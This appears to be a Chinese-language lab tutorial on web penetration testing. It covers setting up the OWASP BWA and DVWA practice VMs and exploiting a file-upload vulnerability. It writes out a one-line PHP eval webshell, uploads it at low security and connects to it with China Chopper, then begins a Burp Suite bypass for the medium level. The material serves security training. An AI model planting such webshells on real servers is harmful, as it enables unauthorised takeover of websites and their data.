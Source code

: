 ## 准备



虚拟机的两种联网方式：

- 桥接
- NAT（建议）

![image-20211023201039462](web渗透.imgs/image-20211023201039462.png)


虚拟机网络改成桥接

然后重新设置虚拟机的ip



```
dhclient -r eth0 # 释放eth0的ip
dhclient -v eth0 # 重新获取ip
# 如果不行就直接  dhclient eth0
```


### OWASPBWA的使用

进入系统之后会显示以下内容

![image-20211023203037453](web渗透.imgs/image-20211023203037453.png)

可以访问  [http://192.168.81.130](http://192.168.81.130) 访问webapp

可以通过SSH连接 【192.168.81.130】 到这个系统

在电脑中命令行通过 \\\\192.168.81.130 访问到共享文件夹 

通过 [http://192.168.81.130](http://192.168.81.130/phpmyadmin) 访问到系统管理页面

以上所有访问的用户名均为 `root` 密码为 `owaspbwa`


我们一般用 ssh 连接 owa靶机，用图形界面操作kali

开启kali的ssh连接

```bash
lsof -i :22
service ssh start
systemctl enable ssh
```



如果VMWare的服务没有启动，那么可能是因为Windows中的VMWare的DHCP服务没有启动。



以下两个是常用的靶机

- [Damn Vulnerable Web Application](http://192.168.81.130/dvwa)

- [OWASP Mutillidae II](http://192.168.81.130/mutillidae)



### 文件上传漏洞渗透及防御



```
OWASP Broken Web Applications Project Broken Web Applications（BWA）项目生成一个虚拟机，运行各种

具有已知漏洞的应用程序，供以下人员使用：

- 了解Meb应用程序安全性
- 测试手册评估技术
- 测试自动化工具在编中0.00KB/S
- 测试源代码分析工具
- 观察网络攻击
- 测试MAF和类似的代码技术
```



本实验 使用 http://192.168.81.130/dvwa/vulnerabilities/upload/

文件上传漏洞：

![image-20211023205354721](web渗透.imgs/image-20211023205354721.png)

从图中可以看到，上传文件的时候没有做校验，导致上传 py 脚本成功

![image-20211023205755099](web渗透.imgs/image-20211023205755099.png)

1、文件上传（File Upload）是大部分Web应用都具备的功能，例如用户上传附件、修改头像、分享图片/视频等

2、正常的文件一般是文档、图片、视频等，Web应用收集之后放入后台存储，需要的时候再调用出来返回

3、如果恶意文件如PHP、ASP等执行文件绕过Web应用，并顺利执行，则相当于黑客直接拿到了Webshe11

4、一旦黑客拿到Webshe11，则可以拿到Web应用的数据，删除Web文件，本地提权，进一步拿下整个服务器甚至内网

5、SQL注入攻击的对象是数据库服务，文件上传漏洞主要攻击Web服务，实际渗透两种相结合，达到对目标的深度控制



**低安全级别：服务器可以接受任何类型任何大小的文件。**

如果上传的文件是恶意的文件，我们就可以用一句话木马上传到web，然后用中国菜刀进行渗透，拿到网站的权限。

编写木马

![image-20211023212049075](web渗透.imgs/image-20211023212049075.png)

```php
<?php @eval($_POST['123']);?>
```

上传木马

![image-20211023212147324](web渗透.imgs/image-20211023212147324.png)

用中国菜刀进行连接

![image-20211023212317771](web渗透.imgs/image-20211023212317771.png)

添加之后就拿下了网站的后台

![image-20211023212350485](web渗透.imgs/image-20211023212350485.png)

![image-20211023212419520](web渗透.imgs/image-20211023212419520.png)

**中安全级别**

设置安全级别

![image-20211023211359856](web渗透.imgs/image-20211023211359856.png)

**中安全级别：设置允许接受的mime类型，对不是指定类型的请求进行拦截**



![image-20211023215839042](web渗透.imgs/image-20211023215839042.png)

此时我们需要 burp suite 提供代理服务器

首先在浏览器的网络设置中设置网络代理，将代理功能指向BurpSuite：

![image-20211023220024378](web渗透.imgs/image-20211023220024378.png)

此时在访问网站的时候会显示 “代理服务器拒绝了连接”

![image-20211023220041757](web渗透.imgs/image-20211023220041757.png)

